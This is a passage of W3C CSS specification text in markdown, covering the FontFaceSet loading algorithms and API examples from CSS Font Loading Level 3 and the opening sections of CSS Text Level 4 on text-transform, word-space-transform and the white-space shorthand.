  5. If *font face set’s* *failed fonts* is non-empty, fire a font load event named `loadingerror` at *font face set* with *failed fonts*.

Whenever a `FontFaceSet` goes from pending on the environment to not pending on the environment, the user agent must run the following steps:

1. If the `FontFaceSet` is stuck on the environment and its `[[LoadingFonts]]` list is empty, switch the FontFaceSet to loaded.
2. If the `FontFaceSet` is stuck on the environment, unmark it as such.

If asked to **find the matching font faces** from a FontFaceSet *source*, for a given font string *font* optionally some sample text *text*, and optionally an *allow system fonts* flag, run the following steps:

1. Parse *font* using the CSS value syntax of the `font` property. If a syntax error occurs, return a syntax error.

   If the parsed value is a CSS-wide keyword, return a syntax error.

   Absolutize all relative lengths against the initial values of the corresponding properties. (For example, a relative font weight like `bolder` is evaluated against the initial value `normal`.)
2. If *text* was not explicitly provided, let it be a string containing a single space character (U+0020 SPACE).
3. Let *font family list* be the list of font families parsed from *font*, and *font style* be the other font style attributes parsed from *font*.
4. Let *available font faces* be the available font faces within *source*. If the *allow system fonts* flag is specified, add all system fonts to *available font faces*.
5. Let *matched font faces* initially be an empty list.
6. For each family in *font family list*, use the font matching rules to select the font faces from *available font faces* that match the *font style*, and add them to *matched font faces*. The use of the `unicodeRange` attribute means that this may be more than just a single font face.
7. If *matched font faces* is empty, set the *found faces* flag to false. Otherwise, set it to true.
8. For each font face in *matched font faces*, if its defined `unicode-range` does not include the codepoint of at least one character in *text*, remove it from the list.

   > **Note:** Therefore, if *text* is the empty string, every font will be removed.
9. Return *matched font faces* and the *found faces* flag.

#### 3.2.  The `load()` method {#css-font-loading-3:font-face-set-load}

The `load()` method of `FontFaceSet` will determine whether all fonts in the given font list have been loaded and are available. If any fonts are downloadable fonts and have not already been loaded, the user agent will initiate the load of each of these fonts. It returns a Promise, which is fulfilled when all of the fonts are loaded and ready to be used, or rejected if any font failed to load properly.

When the **`load`**(  **`font`**, **`text`**  ) method is called, execute these steps:

1. Let *font face set* be the `FontFaceSet` object this method was called on. Let *promise* be a newly-created promise object.
2. Return *promise*. Complete the rest of these steps asynchronously.
3. Find the matching font faces from *font face set* using the `font` and `text` arguments passed to the function, and let *font face list* be the return value (ignoring the *found faces* flag). If a syntax error was returned, reject *promise* with a SyntaxError exception and terminate these steps.
4. Queue a task to run the following steps synchronously:

  1. For all of the font faces in the *font face list*, call their `load()` method.
  2. Resolve *promise* with the result of waiting for all of the `[[FontStatusPromise]]`s of each font face in the *font face list*, in order.

#### 3.3.  The `check()` method {#css-font-loading-3:font-face-set-check}

The `check()` method of `FontFaceSet` will determine whether you can "safely" render some provided text with a particular font list, such that it won’t cause a "font swap" later. If the given text/font combo will render without attempting to use any unloaded or currently-loading fonts, this method will return true; otherwise, it returns false.

> **Note:** Two special cases in this method’s behavior should be noted, as they are non-obvious:
>
> - If the specified fonts exist, but all possible faces are ruled out due to their `unicode-range` not covering the provided text, the method returns `true`, as the text will be rendered in the UA’s fallback font instead, and won’t trigger any font loads.
> - Likewise, if none of the specified fonts exist (for example, names are mis-spelled), the method also returns `true`, because using this font list will not trigger any loads; instead, fallback will occur.

When the **`check`**( **`font`**, **`text`**) method is called, execute these steps:

1. Let *font face set* be the `FontFaceSet` object this method was called on.
2. Find the matching font faces from *font face set* using the `font` and `text` arguments passed to the function, and including system fonts, and let *font face list* be the returned list of font faces, and *found faces* be the returned *found faces* flag. If a syntax error was returned, throw a SyntaxError exception and terminate these steps.
3. If *font face list* is empty, or all fonts in the *font face list* either have a `status` attribute of "loaded" or are system fonts, return `true`. Otherwise, return `false`.

#### 3.4.  The `ready` attribute {#css-font-loading-3:font-face-set-ready}

Because the number of fonts loaded depends on the how many fonts are used for a given piece of text, in some cases whether fonts need to be loaded or not may not be known. The `ready` attribute contains a `Promise` which is resolved when the document is done loading fonts, which provides a way for authors to avoid having to keep track of which fonts have or haven’t been loaded before examining content which may be affected by loading fonts.

> **Note:** Authors should note that a given *ready promise* is only fulfilled once, but further fonts may be loaded after it fulfills. This is similar to listening for a `loadingdone` event to fire, but the callbacks passed to the `ready` promise will **always** get called, even when no font loads occur because the fonts in question are already loaded. It’s a simple, easy way to synchronize code to font loads without the need to keep track of what fonts are needed and precisely when they load.

> **Note:** Note that the user agent may need to iterate over multiple font loads before the *ready promise* is fulfilled. This can occur with font fallback situations, where one font in the fontlist is loaded but doesn’t contain a particular glyph and other fonts in the fontlist need to be loaded. The *ready promise* is only fulfilled after layout operations complete and no additional font loads are necessary.

> **Note:** Note that the Promise returned by this `ready` attribute is only ever fulfilled, never rejected, unlike the Promise returned by the `FontFace` `load()` method.

#### 3.5.  Interaction with CSS Font Loading and Matching {#css-font-loading-3:font-face-set-css}

When the font matching algorithm in [CSS-FONTS-3] is run automatically by the user-agent, the set of font faces it matches over must be precisely the set of fonts in the font source for the document, plus any local font faces.

When a user-agent needs to load a font face, it must do so by calling the `load()` method of the corresponding `FontFace` object.

(This means it must run the same algorithm, not literally call the value currently stored in the `load` property of the object.)

> **Example:** Fonts are available when they are added to a `FontFaceSet`. Adding a new `@font-face` rule to a stylesheet also adds a new `FontFace` to the `FontFaceSet` of the `Document` object.
>
> Adding a new `@font-face` rule:
>
> ```
> document.styleSheets[0].insertRule(
>   "@font-face { font-family: newfont; src: url(newfont.woff); }", 0);
> document.body.style.fontFamily = "newfont, serif";
> ```
>
> Constructing a new `FontFace` object and adding it to `document.fonts`:
>
> ```
> var f = new FontFace("newfont", "url(newfont.woff)");
> document.fonts.add(f);
> document.body.style.fontFamily = "newfont, serif";
> ```
>
> In both cases, the loading of the font resource “newfont.woff” will be initiated by the layout engine, just as other `@font-face` rule fonts are loaded.
>
> Omitting the addition to `document.fonts` means the font would never be loaded and text would be displayed in the default serif font:
>
> ```
> var f = new FontFace("newfont", "url(newtest.woff)", {});
>
> /* new {{FontFace}} not added to {{FontFaceSet}},
>    so the 'font-family' property can't see it,
>    and serif will be used instead */
> document.body.style.fontFamily = "newfont, serif";
> ```
>
> To explicitly preload a font before using it, authors can defer the addition of a new `FontFace` to a `FontFaceSet` until the load has completed:
>
> ```
> var f = new FontFace("newfont", "url(newfont.woff)", {});
> f.load().then(function (loadedFace) {
>   document.fonts.add(loadedFace);
>   document.body.style.fontFamily = "newfont, serif";
> });
> ```
>
> In this case, the font resource “newfont.woff” is first downloaded. Once the download completes, the font is added to the document’s `FontFaceSet`, the body font is changed, and the layout engine uses the new font resource.

### 4.  The `FontFaceSource` Mixin {#css-font-loading-3:font-face-source}

```webidl
interface mixin FontFaceSource {
  readonly attribute FontFaceSet fonts;
};

Document includes FontFaceSource;
WorkerGlobalScope includes FontFaceSource;
```

Any document, workers, or other context which can use fonts in some manner must include the `FontFaceSource` mixin. The value of the context’s `fonts` attribute is its **font source**, which provides all of the fonts used in font-related operations, unless defined otherwise. Operations referring to “the font source” must be interpreted as referring to the font source of the relevant context in which the operation is taking place.

For any font-related operation that takes place within one of these contexts, the `FontFace` objects within the font source are its **available font faces**.

#### 4.1.  Worker FontFaceSources {#css-font-loading-3:fontfacesource-workers}

Within a Worker document, the font source is initially empty.

> **Note:** `FontFace` objects can be constructed and added to it as normal, which affects CSS font-matching within the worker (such as, for example, drawing text into a `OffscreenCanvas`).

#### 4.2.  Interaction with CSS’s `@font-face` Rule {#css-font-loading-3:document-font-face-set}

The set entries for a document’s font source must be initially populated with all the CSS-connected `FontFace` objects from all of the CSS `@font-face` rules in the document or shadow root CSS style sheets, in document order. As `@font-face` rules are added or removed from a stylesheet, or stylesheets containing `@font-face` rules are added or removed, the corresponding CSS-connected `FontFace` objects must be added or removed from the document’s font source, and maintain this ordering.

Any manually-added `FontFace` objects must be ordered *after* the CSS-connected ones.

When a `FontFaceSet` object’s `add()` method is called with a CSS-connected `FontFace` object, if the object is already in the set, the operation must be a no-op; otherwise, the operation must do nothing, and throw an `InvalidModificationError`.

When a `FontFaceSet` object’s `delete()` method is called with a CSS-connected `FontFace` object, the operation must be a no-op, and return `false`.

> **Note:** Authors can still maintain references to a removed `FontFace`, even if it’s been automatically removed from a font source. As specified in [§ 2.3 Interaction with CSS’s @font-face Rule](#css-font-loading-3:font-face-css-connection), though, the `FontFace` is no longer CSS-connected at that point.

> **Note:** It is expected that a future version of this specification will define ways of interacting with and querying local fonts as well.

### 5.  API Examples {#css-font-loading-3:font-load-event-examples}

> **Example:** To show content only after all font loads complete:
>
> ```
> document.fonts.ready.then(function() {
>   var content = document.getElementById("content");
>   content.style.visibility = "visible";
> });
> ```

> **Example:** Drawing text in a canvas with a downloadable font, explicitly initiating the font download and drawing upon completion:
>
> ```
> function drawStuff() {
>   var ctx = document.getElementById("c").getContext("2d");
>
>   ctx.fillStyle = "red";
>   ctx.font = "50px MyDownloadableFont";
>   ctx.fillText("Hello!", 100, 100);
> }
>
> document.fonts.load("50px MyDownloadableFont")
>               .then(drawStuff, handleError);
> ```

> **Example:** A rich text editing application may need to measure text elements after editing operations have taken place. Since style changes may or may not require additional fonts to be downloaded, or the fonts may already have been downloaded, the measurement procedures need to occur after those font loads complete:
>
> ```
> function measureTextElements() {
>   // contents can now be measured using the metrics of
>   // the downloadable font(s)
> }
>
> function doEditing() {
>   // content/layout operations that may cause additional font loads
>   document.fonts.ready.then(measureTextElements);
> }
> ```

> **Example:** The `loadingdone` event only fires after all font related loads have completed **and** text has been laid out without causing additional font loads:
>
> ```
> <style>
> @font-face {
>   font-family: latin-serif;
>   src: url(latinserif.woff) format("woff"); /* contains no kanji/kana */
> }
> @font-face {
>   font-family: jpn-mincho;
>   src: url(mincho.woff) format("woff");
> }
> @font-face {
>   font-family: unused;
>   src: url(unused.woff);
> }
>
> body { font-family: latin-serif, jpn-mincho; }
> </style>
> <p>納豆はいかがでしょうか
> ```
>
> In this situation, the user agent first downloads “latinserif.woff” and then tries to use this to draw the Japanese text. But because no Japanese glyphs are present in that font, fallback occurs and the font “mincho.woff” is downloaded. Only after the second font is downloaded and the Japanese text laid out does the `loadingdone` event fire.
>
> The "unused" font isn’t loaded, but no text is using it, so the UA isn’t even *trying* to load it. It doesn’t interfere with the `loadingdone` event.

---

## CSS Text Module Level 4 {#css-text-4}

- **Shortname:** `css-text-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-text-4/](https://drafts.csswg.org/css-text-4/)
- **Published TR:** [https://www.w3.org/TR/css-text-4/](https://www.w3.org/TR/css-text-4/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-10-26

### 1.  Introduction {#css-text-4:intro}

This module describes the typesetting controls of CSS; that is, the features of CSS that control the translation of source text to formatted, line-wrapped text. Various CSS properties provide control over [case transformation](#css-text-4:transforming), [white space collapsing](#css-text-4:white-space-processing), [text wrapping](#css-text-4:white-space-property), [line breaking rules](#css-text-4:line-breaking) and [hyphenation](#css-text-4:hyphenation), [alignment and justification](#css-text-4:justification), [spacing](#css-text-4:spacing), and [indentation](#css-text-4:edge-effects). See [Additions Since Level 3](#css-text-4:changes-L3) for additions since Level 3.

> **Note:** Font selection is covered in the [CSS Fonts Module](#css-fonts-4). [CSS-FONTS-3]
>
> Features for decorating text, such as [underlines](#css-text-decor-4:line-decoration), [emphasis marks](#css-text-decor-4:emphasis-marks), and [shadows](#css-text-decor-4:text-shadow-property), (previously part of this module) are covered in the [CSS Text Decoration Module](#css-text-decor-4). [CSS-TEXT-DECOR-3]
>
> [Bidirectional](#css-writing-modes-4:text-direction) and [vertical](#css-writing-modes-4:vertical-intro) text are addressed in the [CSS Writing Modes Module](#css-writing-modes-4). [CSS-WRITING-MODES-4].

Further information about the typesetting requirements of various languages and writing systems around the world can be found in the [Internationalization Working Group](https://www.w3.org/International/core/)’s [Language Enablement Index](https://www.w3.org/TR/typography/). [TYPOGRAPHY]

#### 1.1.  Module Interactions {#css-text-4:placement}

This module, together with the [CSS Text Decoration Module](#css-text-decor-4), replaces and extends the text-level features defined in [Cascading Style Sheets Level 2 chapter 16](#css2). [CSS-TEXT-DECOR-3] [CSS2]

In addition to the terms defined below, other terminology and concepts used in this specification are defined in [Cascading Style Sheets Level 2](#css2) and the [CSS Writing Modes Module](#css-writing-modes-4). [CSS2] and [CSS-WRITING-MODES-4].

#### 1.2.  Value Definitions {#css-text-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.3.  Languages and Typesetting {#css-text-4:languages}

> **Advisement:** **Authors should accurately language-tag their content for the best typographic behavior.**

Many typographic effects vary by linguistic context. Language and writing system conventions can affect line breaking, hyphenation, justification, glyph selection, and many other typographic effects. **In CSS, language-specific typographic tailorings are only applied when the content language is known (declared).** Therefore, higher quality typography requires authors to communicate to the UA the correct linguistic context of the text in the document.

The **content language** of an element is the (human) language the element is declared to be in, according to the rules of the document language. Note that it is possible for the content language of an element to be unknown—​e.g. untagged content, or content in a document language that does not have a language-tagging facility, is considered to have an unknown content language.

> **Note:** Authors can declare the content language using the global `lang` attribute in HTML or the universal `xml:lang` attribute in XML. See the rules for determining the content language of an HTML element in HTML, and the [rules for determining the content language of an XML element](https://www.w3.org/TR/xml/#sec-lang-tag) in XML 1.0. [HTML] [XML10]

The content language an element is declared to be in also identifies the specific written form of that language used in that element, known as the **content writing system**. Depending on the document language’s facilities for identifying the content language, this information can be explicit or implied. See the normative [Appendix F: Identifying the Content Writing System](#css-text-4:script-tagging).

> **Note:** Some languages have more than one writing system tradition; in other cases a language can be transliterated into a foreign writing system. Authors should [subtag](#css-text-4:script-tagging) such cases so that the UA can adapt appropriately.

> **Example:** For example, Korean (`ko`) can be written in Hangul (`-Hang`), Hanja (`-Hani`), or a combination (`-Kore`). Historical documents written solely in Hanja do not use word spaces and are formatted more like modern Chinese than modern Korean. In other words, for typographic purposes `ko-Hani` behaves more like `zh-Hant` than `ko` (`ko-Kore`).
>
> As another example Japanese (`ja`) is typically written in a combination (`-Japn`) of Hiragana (`-Hira`), Katakana (`-Kana`), and Kanji (`-Hani`). However, it can also be “romanized” into Latin (`-Latn`) for special purposes like language-learning textbooks, in which case it should be formatted more like English than Japanese.
>
> As a third example contemporary Mongolian is written in two scripts: Cyrillic (`-Cyrl`, officially used in Mongolia) and Mongolian (`-Mong`, more common in Inner Mongolia, part of China). These have very different formatting requirements, with Cyrillic behaving similar to Latin and Greek, and Mongolian deriving from both Arabic and Chinese writing conventions.

#### 1.4.  Characters and Letters {#css-text-4:characters}

The basic unit of typesetting is the **character**. However, because writing systems are not always as simple as the basic English alphabet, what a character actually is depends on the context in which the term is used. For example, in Hangul (the Korean writing system), each square representation of a syllable (e.g. 한=Han) can be considered a character. However, the square symbol is really composed of multiple letters each representing a phoneme (e.g. ㅎ=h, ㅏ=a, ㄴ=n) and these also could each be considered a character.

A basic unit of computer text encoding, for any given encoding, is also called a character, and depending on the encoding, a single encoding character might correspond to the entire pre-composed syllabic character (e.g. 한), to the individual phonemic character (e.g. ㅎ), or to smaller units such as a base letterform (e.g. ㅇ) and any combining marks that vary it (e.g. extra strokes that represent aspiration).

In turn, a single encoding character can be represented in the data stream as one or more bytes; and in programming environments one byte is sometimes also called a character.

Therefore the term character is fairly ambiguous where technical precision is required.

For text layout, we will refer to the **typographic character unit** as the basic unit of text. Even within the realm of text layout, the relevant character unit depends on the operation. For example, line-breaking and letter-spacing will segment a sequence of Thai characters that include U+0E33  ำ THAI CHARACTER SARA AM differently; or the behavior of a conjunct consonant in a script such as Devanagari may depend on the font in use. So the typographic character represents a unit of the writing system—​such as a Latin alphabetic letter (including its diacritics), Hangul syllable, Chinese ideographic character, Myanmar syllable cluster—​that is indivisible with respect to a particular typographic operation (line-breaking, first-letter effects, tracking, justification, vertical arrangement, etc.).

[Unicode Standard Annex #29: Text Segmentation](http://www.unicode.org/reports/tr29/) defines a unit called the **grapheme cluster** which approximates the typographic character. [UAX29] A UA must use the *extended grapheme cluster* (not *legacy grapheme cluster*), as defined in UAX29, as the basis for its typographic character unit. However, the UA should tailor the definitions as required by typographic tradition since the default rules are not always appropriate or ideal—​and is expected to tailor them differently depending on the operation as needed.

> **Note:** The rules for such tailorings are out of scope for CSS.

> **Example:** The following are some examples of typographic character unit tailorings required by standard typesetting practice:
>
> - In some scripts such as Myanmar or Devanagari, the typographic character unit for both justification and line-breaking is an entire syllable, which can include more than one Unicode grapheme cluster. [UAX29]
> - In other scripts such as Thai or Lao, even though for line-breaking the typographic character matches Unicode’s default grapheme clusters, for letter-spacing the relevant unit is *less* than a Unicode grapheme cluster, and may require decomposition or other substitutions before spacing can be inserted. [UAX29]
>
>   For instance, to properly letter-space the Thai word คำ (U+0E04 + U+0E33), the U+0E33 needs to be decomposed into U+0E4D + U+0E32, and then the extra letter-space inserted before the U+0E32: คํ า.
>
>   A slightly more complex example is น้ำ (U+0E19 + U+0E49 + U+0E33). In this case, normal Thai shaping will first decompose the U+0E33 into U+0E4D + U+0E32 and then swap the U+0E4D with the U+0E49, giving U+0E19 + U+0E4D + U+0E49 + U+0E32. As before the extra letter-space is then inserted before the U+0E32: นํ้ า.
> - Vertical typesetting can also require tailoring. For example, when typesetting `upright` text, Tibetan tsek and shad marks are kept with the preceding grapheme cluster, rather than treated as an independent typographic character unit. [CSS-WRITING-MODES-4]

A **typographic letter unit** (or **letter** for the purpose of this specification) is a typographic character unit belonging to one of the Letter or Number general categories. See [Appendix E: Characters and Properties](#css-text-4:character-properties) for how to determine the Unicode properties of a typographic character unit.

The rendering characteristics of a typographic character unit divided by an element boundary is undefined. Ideally each component should be rendered according to the formatting requirements of its respective element’s properties while maintaining correct shaping and positioning of the typographic character unit as a whole. However, depending on the nature of the formatting differences between its parts and the capabilities of the font technology in use, this is not always possible. Therefore such a typographic character unit may be rendered as belonging to either side of the boundary, or as some approximation of belonging to both. Authors are forewarned that dividing grapheme clusters or ligatures by element boundaries may give inconsistent or undesired results.

#### 1.5.  Text Processing {#css-text-4:text-encoding}

CSS is built on [Unicode](https://www.unicode.org/versions/latest/). [UNICODE] UAs that support Unicode must adhere to all normative requirements of the Unicode Core Standard, except where explicitly overridden by CSS. UAs implemented on the basis of a non-Unicode text encoding model are still expected to fulfill the same text handling requirements by assuming an appropriate mapping and analogous behavior.

For the purpose of determining adjacency for text processing (such as white space processing, text transformation, line-breaking, etc.), and thus in general within this specification, intervening inline box boundaries and out-of-flow elements must be ignored. With respect to text shaping, however, see [§ 8.7 Shaping Across Element Boundaries](#css-text-4:boundary-shaping).

### 2.  Transforming Text {#css-text-4:transforming}

#### 2.1.  Case Transforms: the `text-transform` property {#css-text-4:text-transform-property}

| Field | Value |
| --- | --- |
| Name: | **text-transform** |
| [Value:](#css-values-4:value-defs) | none \| [capitalize \| uppercase \| lowercase ] \|\| full-width \|\| full-size-kana \| math-auto |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property transforms text for styling purposes. It has no effect on the underlying content, and must not affect the content of a plain text copy & paste operation.

**Authors must not rely on `text-transform` for semantic purposes; rather the correct casing and semantics should be encoded in the source document text and markup.**

Values have the following meanings:

****none****

: No effects.

****capitalize****

: Puts the first typographic letter unit of each word, if lowercase, in titlecase; other characters are unaffected.

****uppercase****

: Puts all letters in uppercase.

****lowercase****

: Puts all letters in lowercase.

****full-width****

: Puts all typographic character units in full-width form. If a character does not have a corresponding full-width form, it is left as is. This value is typically used to typeset Latin letters and digits as if they were ideographic characters.

****full-size-kana****

: Converts all small Kana characters to the equivalent full-size Kana. This value is typically used for ruby annotation text, where authors may want all small Kana to be drawn as large Kana to compensate for legibility issues at the small font sizes typically used in ruby.

****math-auto****

: See [MathML Core § 4.2 The math-auto transform](https://w3c.github.io/mathml-core/#math-auto-transform).

> **Example:** The following example converts the ASCII characters used in abbreviations in Japanese text to their full-width variants so that they lay out and line break like ideographs:
>
> ```
> abbr:lang(ja) { text-transform: full-width; }
> ```

> **Note:** The purpose of `text-transform` is to allow for presentational casing transformations without affecting the semantics of the document. Note in particular that `text-transform` casing operations are lossy, and can distort the meaning of a text. While accessibility interfaces may wish to convey the apparent casing of the rendered text to the user, the transformed text cannot be relied on to accurately represent the underlying meaning of the document.

> **Example:** In this example, the first line of text is capitalized as a visual effect.
>
> ```
> section > p:first-of-type::first-line {
>   text-transform: uppercase;
> }
> ```
>
> This effect cannot be written into the source document because the position of the line break depends on layout. But also, the capitalization is not reflecting a semantic distinction and is not intended to affect the paragraph’s reading; therefore it belongs in the presentation layer.

> **Example:** In this example, the ruby annotations, which are half the size of the main paragraph text, are transformed to use regular-size kana in place of small kana.
>
> ```
> rt { font-size: 50%; text-transform: full-size-kana; }
> :is(h1, h2, h3, h4) rt { text-transform: none; /* unset for large text*/ }
> ```
>
> Note that while this makes such letters easier to see at small type sizes, the transformation distorts the text: the reader needs to mentally substitute small kana in the appropriate places—​not unlike reading a Latin inscription where all “U”s look like “V”s.
>
> For example, if `text-transform: full-size-kana` were applied to the following source, the annotation would read “じゆう” (jiyū), which means “liberty”, instead of “じゅう” (jū), which means “ten”, the correct reading and meaning for the annotated “十”.
>
> ```
> <ruby>十<rt>じゅう</ruby>
> ```

##### 2.1.1.  Mapping Rules {#css-text-4:text-transform-mapping}

For `capitalize`, what constitutes a “word“ is UA-dependent; [UAX29] is suggested (but not required) for determining such word boundaries. Out-of-flow boxes and inline box boundaries must not introduce a `text-transform` word boundary and must be ignored when determining such word boundaries.

> **Note:** Authors cannot depend on `capitalize` to follow language-specific titlecasing conventions (such as skipping articles in English).

The UA must use the full case mappings for Unicode characters, including any conditional casing rules, as defined in the Default Case Algorithms section of The Unicode Standard. [UNICODE] If (and only if) the content language of the element is, according to the rules of the document language, known, then any appropriate language-specific rules must be applied as well. These minimally include, but are not limited to, the language-specific rules in Unicode’s [SpecialCasing.txt](http://www.unicode.org/Public/UNIDATA/SpecialCasing.txt).

> **Example:** For example, in Turkish there are two “i”s, one with a dot—​“İ” and “i”—​and one without—​“I” and “ı”. Thus the usual case mappings between “I” and “i” are replaced with a different set of mappings to their respective dotless/dotted counterparts, which do not exist in English. This mapping must only take effect if the content language is Turkish written in its modern Latin-based writing system (or another Turkic language that uses Turkish casing rules); in other languages, the usual mapping of “I” and “i” is required. This rule is thus conditionally defined in Unicode’s SpecialCasing.txt file.

The definition of **full-width** and **half-width** forms can be found in [Unicode Standard Annex #11: East Asian Width](https://www.unicode.org/reports/tr11/). [UAX11] The mapping to full-width form is defined by taking code points with the `<wide>` or the `<narrow>` tag in their `Decomposition_Mapping` in [Unicode Standard Annex #44: Unicode Character Database](https://www.unicode.org/reports/tr44/). [UAX44] For the `<narrow>` tag, the mapping is from the code point to the decomposition (minus `<narrow>` tag), and for the `<wide>` tag, the mapping is from the decomposition (minus the `<wide>` tag) back to the original code point.

The mappings for small Kana to full-size Kana are defined in [Appendix G: Small Kana Mappings](#css-text-4:small-kana).

#### 2.2.  Expanding Between Words: the `word-space-transform` property {#css-text-4:word-space-transform}

| Field | Value |
| --- | --- |
| Name: | **word-space-transform** |
| [Value:](#css-values-4:value-defs) | none \| [ space \| ideographic-space ] && auto-phrase? |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Some languages and writing systems have alternative ways of delimiting words, either using different separating characters, or sometimes no visible character at all. This property allows authors to change the rendering from one style to another without needing to change the markup.

****none****

: This property has no effect.

****space****

: Expandable separators within the child text of this element are replaced by U+0020 SPACE.

****ideographic-space****

: Expandable separators within the child text of this element are replaced by U+3000 IDEOGRAPHIC SPACE.

****auto-phrase****

: If the content language is known and the user agent supports linguistic analysis for this language, the user agent must detect phrase boundaries. If a word-separator character, other space separator, or U+200B ZERO WIDTH SPACE character does not already occur at that boundary, then the UA must insert a virtual expandable separator.

  If this value is omitted, or if the content language is unknown, or if the user agent does not support detecting phrase boundaries for that language, there are no virtual expandable separator.

For the purpose of this property, **expandable separators** are any of:

- U+200B ZERO WIDTH SPACE characters
- `wbr` elements
- virtual expandable separators

A **virtual expandable separator** is a UA-detected syntactic boundary in the text that represents an expandable separator not otherwise occuring in the source document. It has no effect other than for this property.

The user agent must not replace expandable separators immediately preceding or following a forced line break (ignoring any intervening inline box boundaries, and associated `margin`/`border`/`padding`).

> **Note:** Because virtual expandable separators [are placed in the outermost element that participates in an inline box boundary](#css-text-4:boundary-outermost), if one would coincide with boundary of an inline box whose parent box has a used value of `word-space-transform: none`, that particular virtual expandable separator is not expanded, since it would be placed in the parent box.

Like `text-transform`, this property transforms text for styling purposes only. It has no effect on the underlying content, and must not affect the content of a plain text copy & paste operation.

> **Example:** Unlike books for adults, Japanese books for young children often feature spaces between sentence segments, to facilitate reading. People with dyslexia also tend to find this style easier to read.
>
> Absent any particular styling, the following sentence would be rendered as depicted below.
>
> ```
> <p>むかしむかし、<wbr>あるところに、<wbr>おじいさんと<wbr>おばあさんが<wbr>すんでいました。
> ```
>
> `むかしむかし、あるところに、おじいさんとおばあさんがすんでいました。`
>
> ---
>
> Phrase-based spacing can be achieved with the following css:
>
> ```
> p {
>   word-space-transform: ideographic-space;
> }
> ```
>
> `むかしむかし、 あるところに、 おじいさんと おばあさんが すんでいました。`
>
> ---
>
> Another common variant additionally restricts the allowable line breaks to these phrase boundaries. Using the same markup, this is easily achieved with the following css:
>
> ```
> p {
>   word-break: keep-all;
>   word-space-transform: ideographic-space;
> }
> ```
>
> `むかしむかし、 あるところに、 おじいさんと おばあさんが すんでいました。`

> **Example:** In addition to making the source code more readable, using `wbr` rather than U+200B in the markup also allow authors to classify the delimiters into different groups.
>
> In the following example, `wbr` elements are either unmarked when they delimit a word, or marked with class `p` when they also delimit a phrase.
>
> ```
> <p>らいしゅう<wbr>の<wbr>じゅぎょう<wbr>に<wbr class=p>たいこ<wbr>と<wbr>ばち<wbr>を<wbr class=p>もって<wbr>きて<wbr>ください。
> ```
>
> Using this, it is possible not only to enable the rather common phrase-based spacing, but also word-by-word spacing that is likely to be preferred by people with dyslexia to reduce ambiguities, or other variants such as a combination of phrase-based spacing and of word-based wrapping.
>
> Usual rendering
>
> `らいしゅうのじゅぎょうにたいことばちをもってきてください。`
>
> ---
>
> Phrase spacing
>
> ```
> p wbr.p {
>   word-space-transform: ideographic-space;
> }
> ```
>
> `らいしゅうのじゅぎょうに たいことばちを もってきてください。`
>
> ---
>
> Word spacing
>
> ```
> p wbr {
>   word-space-transform: ideographic-space;
> }
> ```
>
> `らいしゅう の じゅぎょう に たいこ と ばち を もって きて ください。`
>
> ---
>
> Phrase spacing, word wrapping
>
> ```
> p {
>   word-break: keep-all;
> }
> p wbr.p {
>   word-space-transform: ideographic-space;
> }
> ```
>
> `らいしゅうのじゅぎょうに たいことばちを もってきてください。`
>
> ---
>
> Word spacing and wrapping
>
> ```
> p {
>   word-break: keep-all;
> }
> p wbr {
>   word-space-transform: ideographic-space;
> }
> ```
>
> `らいしゅう の じゅぎょう に たいこ と ばち を もって きて ください。`

#### 2.3.  Order of Operations {#css-text-4:text-transform-order}

When multiple transformations need to be applied, they are applied in the following order:

1. `word-space-transform`
2. `capitalize`, `uppercase`, and `lowercase`
3. `full-width`
4. `full-size-kana`

Word space transformation and text transformation happen after [§ 4.3.1 Phase I: Collapsing and Transformation](#css-text-4:white-space-phase-1) but before [§ 4.3.2 Phase II: Trimming and Positioning](#css-text-4:white-space-phase-2). This means for instance that `full-width` only transforms spaces (U+0020) to U+3000 IDEOGRAPHIC SPACE within preserved white space.

> **Note:** As defined in [Appendix A: Text Processing Order of Operations](#css-text-4:order), transforming affects line-breaking and other formatting operations.

### 3.  White Space and Wrapping: the `white-space` property {#css-text-4:white-space-property}

| Field | Value |
| --- | --- |
| Name: | **white-space** |
| [Value:](#css-values-4:value-defs) | normal \| pre \| pre-wrap \| pre-line \| `<'white-space-collapse'>` \|\| `<'text-wrap-mode'>` \|\| `<'white-space-trim'>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property is a shorthand for `white-space-collapse`, `text-wrap-mode`, and `white-space-trim`. It specifies two things:

- whether and how white space is collapsed; see [White Space Processing](#css-text-4:white-space-processing)
- whether lines may wrap at unforced soft wrap opportunities; see [§ 5 Text Wrapping](#css-text-4:text-wrapping) and [Line Breaking](#css-text-4:line-breaking)

> **Note:** This shorthand combines both inheritable and non-inheritable properties. If this is a problem, please inform the CSSWG.

Unless otherwise specified, any omitted longhand is set to its initial value.

The following table gives the normative mapping of the values of the shorthand’s special keywords to their equivalent longhand values.

| `white-space` | `white-space-collapse` | `text-wrap-mode` | `white-space-trim` |
| --- | --- | --- | --- |
| **normal** | `collapse` | `wrap` | `none` |
| **pre** | `preserve` | `nowrap` | `none` |
| **pre-wrap** | `preserve` | `wrap` | `none` |
| **pre-line** | `preserve-breaks` | `wrap` | `none` |

